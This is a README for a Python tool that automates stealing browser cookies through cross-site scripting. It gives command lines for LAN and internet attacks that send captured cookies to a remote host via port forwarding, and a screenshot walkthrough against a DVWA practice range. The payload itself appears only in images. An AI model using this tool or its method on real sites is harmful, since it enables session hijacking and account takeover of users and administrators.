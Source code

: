 # XSS steals cookies
* The current version is 1.0 and will be updated continuously
* Python version 3.6 or above
* Automatically steal cookies
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS.py -h```
  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/Command.png "Help")  

  * LAN attack

      ```#python3 XSS.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * Here, XSS will be demonstrated in the local DVWA shooting range, and cookies will be stolen through the internet

_If your machine has a public IP address, just listen to the local port_

* Enable port forwarding (Ngrok is used for demonstration)
![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/TCP.png "Port forwarding")  
* Use Internet attack

    ```#python3 XSS.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```
 ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/PAYLOAD.png "PAYLOAD")  
Copy PAYLOAD

* Attempt to inject statement
   ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/ADMIN.png "Cookie")  
* Administrator visits malicious page
  The administrator is redirected to the specified page

  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/redirect.png "page")  
    
* Got cookies
      ![图片名称](https://github.com/MartinxMax/XSS_Cookie_Tool/blob/master/%C2%96%C2%96Demo_image/Cookie.png?raw=true "Cookie")  